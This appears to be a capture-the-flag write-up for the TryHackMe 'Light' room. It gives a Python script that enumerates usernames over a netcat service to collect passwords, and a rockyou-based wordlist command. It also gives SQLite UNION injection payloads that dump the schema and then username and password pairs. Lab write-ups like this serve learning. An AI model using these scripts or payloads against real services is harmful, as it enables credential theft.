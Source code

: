 ```yaml
---
title: ""
date: 2025-03-06 20:30
categories: [thm, hacking, linux]
tags: [ctf, sqlinjection, netcat, nc, python, bash, sql]
---
```


# Light

### Room: 
[Link to the LIGHT room on THM](https://tryhackme.com/room/lightroom)
### Intro: 
"I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using:

```bash
nc MACHINE_IP 1337
```

You can use the username smokey in order to get started."
### Notes
- With all this info I started as suggested, providing username you will get a password
- First idea actually was not SQL injection, but just a bruteforce, so I wrote a short python script to poke the service:

```python
import socket
import argparse
import time
import re

def brute_force(ip, port, userlist):
    try:
        with open(userlist, "r") as f:
            for user in f:
                user = user.strip()
                print(f"[*] Trying username: {user}")
                
                try:
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.connect((ip, port))
                    s.recv(1024)  # Wait for initial prompt (if needed)
                    time.sleep(0.5)  # if need
                    s.sendall(user.encode())  # Send username
                    
                    time.sleep(0.5)  # if need
                    response = s.recv(1024).decode()
                    
                    # Extract password using regex
                    match = re.search(r'Password:\s*(\S+)', response)
                    if match:
                        password = match.group(1)
                        print(f"[+] Found password for {user}: {password}")
                    
                    s.close()
                except Exception as e:
                    print(f"[-] Error: {e}")
    except FileNotFoundError:
        print("[!] Username file not found.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Brute-force username enumeration over netcat-like service.")
    parser.add_argument("ip", help="Target IP address")
    parser.add_argument("port", type=int, help="Target port number")
    parser.add_argument("userlist", help="Path to the username list file")
    
    args = parser.parse_args()
    
    brute_force(args.ip, args.port, args.userlist)
```

- Preparing wordlist: I count that username must have 14 symbols so decide to create a new list (using rockyou.txt) since it is easy room so quick bash for that:

```bash
grep -o '\b\w\{14\}\b' rockyou.txt > 14_symbols_words.txt
```

- Starting bruteforce I realized since it is a database we could try SQLInjections meanwhile.
- After some time of trying different payloads I found that UNION could work in this case (pay attention to letter cases) and it is a sqlite kind of db:

```sql
' Union 1 '
' Union Select group_concat(sql) From sqlite_master '
' Union Select group_concat(username || '~' || password) From <here will be some table from previous query> '
```

- Actually that's it python script was kind waste of time from this room point of view but anyway I like to write scripts so no regret haha :D